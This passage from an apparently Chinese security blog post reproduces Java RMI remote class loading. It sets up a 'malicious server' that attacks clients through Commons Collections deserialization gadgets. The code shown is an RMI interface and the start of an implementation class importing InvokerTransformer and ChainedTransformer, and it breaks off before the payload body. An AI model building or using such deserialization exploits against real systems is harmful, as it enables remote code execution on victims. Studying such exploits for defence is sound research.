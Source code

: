 ```yaml
---
layout:     post
title:      Java 远程动态加载之简单利用
subtitle:   简单复现一下 并记录
date:       2021-02-20
author:     BY Diego
header-img: https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/60d4fea7ba041eaa32730221622c1a47.jpg
catalog: true
tags:
    - Java
    - 反序列化
---
```


### Java 远程动态加载

在目标环境没有`commons-collections-3.1.jar` 时 可以在目标环境允许加载外部库时 从而进行利用

https://govuln.com/attachment/798/

![image-20210219143715287](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210219143715287.png)

### 服务端攻击客户端



**恶意服务端** （192.168.0.104）

目录结构

![image-20210219143010675](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/image-20210219143010675.png)

`RemoteHello.java` 接口类

```java
package Remote;

import java.rmi.Remote;
import java.rmi.RemoteException;
public interface RemoteHello extends Remote {
    Object exp() throws RemoteException,Exception;
}
```



`RemoteHelloImpl.java` 接口实现类

```java
package Remote;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.lang.annotation.Target;
import java.lang.reflect.Constructor;
import java.rmi.RemoteException;
import java.util.HashMap;
import java.util.Map;

public class RemoteHelloImpl implements RemoteHello {

    public Object exp() throws Exception {
        System.out.println("exp");
        return payload(); //将生成的对象返回 然后传输前进行序列化
```